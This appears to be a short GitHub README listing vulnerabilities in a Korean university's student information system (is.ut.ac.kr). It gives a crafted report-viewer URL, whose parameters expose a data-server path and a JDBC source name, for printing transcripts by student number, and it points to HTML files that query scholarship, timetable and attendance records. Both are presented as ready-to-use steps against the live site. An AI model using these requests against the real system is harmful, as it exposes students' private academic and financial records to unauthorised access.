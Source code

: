 ## 한국교통대학교 종합정보시스템 (is.ut.ac.kr) Vulnerabilities

### 성적표 출력
* Request in Internet Explorer to install cxViewer plugin
* Query string: Change \<STUDENT-NUMBER\> to your student number
    * `https://is.ut.ac.kr/cxViewer/RdView.jsp?view_mode=rdopen_non_output();&param=%2Frp%20%20%5B2020%2D08%2D14%5D%20%5B<STUDENT-NUMBER>%5D%20%5B91215035%5D%20%5B<STUDENT-NUMBER>%5D%20%5B%5D%20%5B<STUDENT-NUMBER>%5D%20%5B00%5D%20%5B%25%5D%20%5B%25%5D%20%2Frl%20%5B%5D%20%2Frfn%20%5Bhttps%3A%2F%2Fis%2Eut%2Eac%2Ekr%2FDataServer%2Frdagent%2Ejsp%5D%20%2Frsn%20%5Bjdbc%2Fusop%5D&mrd=%2FGA%2FSC%2FSC02%2FMRD%2Fcsga%5F04063%2Emrd`

### 장학금 수혜 내역
* Refer to the `query_scholarship_benefits.html` file
* Change \<STUDENT-NUMBER\> to your student number

### 시간표 조회
* Refer to the `query_time_table.html` file
* Change \<STUDENT-NUMBER\> to your student number
* Change \<SEMESTER\> to semester you want to query
* Change \<YEAR\> to the year you want to query

### 전자출결조회
* Refer to the `query_electronic_attendance_inquiry.html` file
* Change \<STUDENT-NUMBER\> to your student number
* Change \<SEMESTER\> to semester you want to query
* Change \<YEAR\> to the year you want to query

---
### Report Designer Editor V5.0 (*.mrd file editor): http://ufdev.hmm21.com/Dist/index.html, [Download](http://ufdev.hmm21.com/Dist/download/ReportDesigner5.0u.zip)
### Last confirmed in 2020-08-31.